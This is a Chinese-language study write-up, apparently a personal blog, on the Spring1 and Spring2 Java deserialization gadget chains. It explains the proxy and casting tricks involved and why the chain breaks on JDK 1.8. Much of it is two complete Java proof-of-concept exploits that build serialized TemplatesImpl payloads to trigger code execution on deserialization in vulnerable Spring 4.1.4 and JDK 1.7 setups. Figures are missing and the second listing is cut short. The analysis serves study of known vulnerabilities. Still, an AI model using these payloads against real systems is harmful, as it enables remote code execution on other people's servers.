


# Spring1

## 利用条件

spring-core : 4.1.4.RELEASE
spring-beans : 4.1.4.RELEASE
jdk 1.7

## 前置知识

这条链子看着挺简单的,结果搞了几天,感觉主要还是因为这几个知识点没理清楚吧

### 动态代理

动态代理的在invoke中返回的类型应该与代理的方法返回的类型相同

反编译一下我们的代理类


是可以看到这里是会吧我们的invoke中的返回结果作为该方法的返回值的,如果我们这里返回一个字符串,就会报错




在跟踪前几条链子的时候因为是在invoke中完成了整个反序列化的调用,还没有执行到return,所以说我们的整个流程并没有受影响。

### 转型

这里的话是自己的理解,也不知道是否准确

**向上转型**

向上转型是指子类向父类转型,这种情况一般是不会发生异常的,因为子类实现了父类的所有方法和接口。

**向下转型**

向下转型的话可能会受影响,在编译的过程中是不会报错的,只有在运行的时候会报错


像这样就不会报错,因为f指向的是Son类


总结一下的话,就是转型后的Class中的方法必须在转型前的方法中有所实现。

### MethodInvokeTypeProvider

在该类的readObject中有两个关键的方法


这里methodName在构造方法中,而且可控,这里会通过findMethod方法,从我们`this.provider.getType().getClass()`这个类中找对应的方法,然后传入下面的`invokeMethod`,

此时会从我们传入的对象中执行`method`方法。这里我们让我们的Obj为`TemplatesImpl`,method为`newTransformer`,就能成功利用。

### AnnotationInvocationHandler

该代理类是可以任意返回一个Object对象的,这里`memberValues`是一个map,var4为我们的方法名,


我们可以通过这样返回我们的恶意`TemplatesImpl`类


但是因为我前面说的动态代理的那部分,实际运行中会报错


因为getType方法的返回类型是一个Type类型


如何解决这个问题呢,就要引入到我们的下一个知识点

### ObjectFactoryDelegatingInvocationHandler

`org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler` 是 InvocationHandler 的实现类，实例化时接收一个 ObjectFactory 对象，并在 invoke 代理时调用 ObjectFactory 的 getObject 方法返回 ObjectFactory 的实例用于 Method 的反射调用。


因为ObjectFactor的类型是泛型的,如果我们经过代理,让`this.objectFactory.getObject()`返回`TemplatesImpl`类是不会报错的,然后再执行`method.invoke`,就能成功执行


### 流程图


### Poc

```java
import Tools.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.springframework.beans.factory.ObjectFactory;

import javax.xml.transform.Templates;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;
/**
 * SerializableTypeWrapper$MethodInvokeTypeProvider.readObject()
 *     SerializableTypeWrapper.TypeProvider(Proxy).getType()
 * 	    AnnotationInvocationHandler.invoke()
 * 		    ReflectionUtils.invokeMethod()
 * 			    Templates(Proxy).newTransformer()
 * 				    AutowireUtils$ObjectFactoryDelegatingInvocationHandler.invoke()
 * 					    ObjectFactory(Proxy).getObject()
 * 						    TemplatesImpl.newTransformer()
 */
public class Sp1byme {
    public Sp1byme() throws ClassNotFoundException {
    }

    public static void main(String[] args) throws Exception {
        TemplatesImpl tmpl = SerializeUtil.generateTemplatesImpl();
        // 使用 AnnotationInvocationHandler 动态代理
        Class<?> AnnHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Class<?> ObjFahandler = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");

        // 使用动态代理初始化 AnnotationInvocationHandler,代理ObjFahander的ObjectFactory字段
        Constructor<?> Annconstructor = AnnHandler.getDeclaredConstructors()[0];
        Annconstructor.setAccessible(true);
        HashMap map=new HashMap();
        map.put("getObject",tmpl);
        InvocationHandler AHandler = (InvocationHandler) Annconstructor.newInstance(Target.class, map);
        Object factory=Proxy.newProxyInstance( ClassLoader.getSystemClassLoader(), new Class[]{ObjectFactory.class},AHandler);

        // 创建ObjFahandler
        Constructor Objhandlerconstrutor=ObjFahandler.getDeclaredConstructors()[0];
        Objhandlerconstrutor.setAccessible(true);
        InvocationHandler ObjHandler = (InvocationHandler) Objhandlerconstrutor.newInstance(factory);
        //实现了Templates接口,目的是能从中获取MethodName
        Object type=Proxy.newProxyInstance( ClassLoader.getSystemClassLoader(), new Class[]{Type.class,Templates.class},ObjHandler);


        //创建MethodInvokeTypeProvider类的Provide成员
        HashMap map2=new HashMap();
        map2.put("getType",type);
        InvocationHandler AHandler2 = (InvocationHandler) Annconstructor.newInstance(Target.class, map2);
        Object provider=Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{typeProviderClass},AHandler2);

        //创建MethodInvokeTypeProvider类
        Constructor typeProviderConstructor =typeProvider.getDeclaredConstructors()[0];
        typeProviderConstructor.setAccessible(true);
        //随便传入一个方法防止在初始化时触发
        Object typePro= typeProviderConstructor.newInstance(provider,Object.class.getMethod("toString"),0);
        Field field = typePro.getClass().getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(typePro, "newTransformer");

        SerializeUtil.writeObjectToFile(typePro, "sp1");
        SerializeUtil.readFileObject("sp1");
    }
}
```

## 疑问

为什么这条链子在1.7能用1.8的有些时候就用不了呢

之前在CC1的时候其实就没怎么弄清楚,现在自己又来重新梳理一下,感觉网上各种说法都不一样,还是自己分析一下吧



jdk1.7中使用的是`defaultReadObject()` ,它可以恢复对象本身的类属性,我们的memberValues将会被直接赋值

jdk1.8中使用的是`readFields()`,听名字就应该是获取所有的字段指,然后调用get方法,取出对应的字段,如果没有赋值,则默认使用赋值为`null`,其实这里memberValues的值已经被取出来了,只是没有直接赋值给`this.memberValues`,而是赋值给了`var4`


然后`this.memberValues`的赋值是在最后,调用了`setMemberValues`


我们现在就只需要去关注这个var7就可以了

但是我这里debug的时候很奇怪,比如这里是var11=null,但debug又有值,其他地方感觉也有点对不上。


不过大体思路应该还是能看懂的,这里新建了一个LinkedHashMap,然后对我们的var4进行一个循环遍历,赋值给var7,然后将var7赋值给`MemberValues`


这里的var10是能够轻松获取的,但是var11就需要满足一些条件,

我们构造的恶意map的value是受到了一些限制的。比如这里如果想要进入第一个if的话key需要等于"value",不能像这条链子一样随意构造了key了,自然1.8版本无法使用


# Spring2

## 利用条件

spring-core : 4.1.4.RELEASE
spring-aop : 4.1.4.RELEASE
jdk 1.7

## 前置知识

Spring2利用的是另外一个代理类:`JdkDynamicAopProxy`

### JdkDynamicAopProxy

在invoke中


下面这个跟进去,发现会调用`target`的method方法


看下这个target,发现经过getTarget之后返回一个Object类型


如果我们将我们的`targetSource`设置为我们的Ann代理类,然后调用`getTarget`的时候返回一个恶意`TemplatesImpl`类,接着调用`newTransformer`方法。

## Poc

入口还是`org.springframework.core.SerializableTypeWrapper.MethodInvokeTypeProvider`,我的上面的那个代理类虽然Target可控,但是method还是需要该类中的`ReflectionUtils.invokeMethod`来触发的。


```java
import Tools.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.springframework.aop.framework.AdvisedSupport;

import javax.xml.transform.Templates;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;


/**
 * SerializableTypeWrapper$MethodInvokeTypeProvider.readObject()
 *     SerializableTypeWrapper.TypeProvider(Proxy).getType()
 * 	    AnnotationInvocationHandler.invoke()
 * 		    ReflectionUtils.invokeMethod()
 * 			    Templates(Proxy).newTransformer()
 * 				    JdkDynamicAopProxy.invoke()
 *                         AopUtils.invokeJoinpointUsingReflection()
 * 						    TemplatesImpl.newTransformer()
 */
public class Spring2 {

    public static String fileName = "Spring2.bin";

    public static void main(String[] args) throws Exception {

        // 生成包含恶意类字节码的 TemplatesImpl 类
        TemplatesImpl tmpl = SerializeUtil.generateTemplatesImpl();

        // 实例化 AdvisedSupport
        AdvisedSupport as = new AdvisedSupport();
        as.setTarget(tmpl);

        // 使用 AnnotationInvocationHandler 动态代理
        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        // JdkDynamicAopProxy 的 invoke 方法触发 TargetSource 的 getTarget 返回 tmpl
        // 并且会调用 method.invoke(返回值,args)
        // 此时返回值被我们使用动态代理改为了 TemplatesImpl
        // 接下来需要 method 是 newTransformer()，就可以触发调用链了
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> aopConstructor = clazz.getDeclaredConstructors()[0];
        aopConstructor.setAccessible(true);
        // 使用 AdvisedSupport 实例化 JdkDynamicAopProxy
        InvocationHandler aopProxy = (InvocationHandler) aopConstructor.newInstance(as);

        // JdkDynamicAopProxy 本身就是个 InvocationHandler
        // 使用它来代理一个类，这样在这个类调用时将会触发 JdkDynamicAopProxy 的 invoke 方法
        // 我们用它代理一个既是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类
        // 这样这个代理类同时拥有两个类的方法，既能被强转为 TypeProvider.getType() 的返回值，又可以在其中找到 newTransformer 方法
        Type typeTemplateProxy = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{Type.class, Templates.class}, aopProxy);


        // 接下来代理  TypeProvider 的 getType() 方法，使其返回我们创建的 typeTemplateProxy 代理类
        HashMap<String, Object> map2 = new HashMap<>();
        map2.put("getType", typeTemplateProxy);

        InvocationHandler newInvocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map2);

        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        // 使用 AnnotationInvocationHandler 动态代理 TypeProvider 的 getType 方法，使其返回 typeTemplateProxy
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{typeProviderClass}, newInvocationHandler);


        // 初始化 MethodInvokeTypeProvider
        Class<?> clazz2 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> cons = clazz2.getDeclaredConstructors()[0];
        cons.setAccessible(true);
        // 由于 MethodInvokeTypeProvider 初始化时会立即调用  ReflectionUtils.invokeMethod(method, provider.getType())
        // 所以初始化时我们随便给个 Method，methodName 我们使用反射写进去
        Object objects = cons.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        Field  field   = clazz2.getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(objects, "newTransformer");

        SerializeUtil.writeObjectToFile(objects, fileName);
        SerializeUtil.readFileObject(fileName);
    }


```

# 参考


https://su18.org/post/ysoserial-su18-3/#spring1


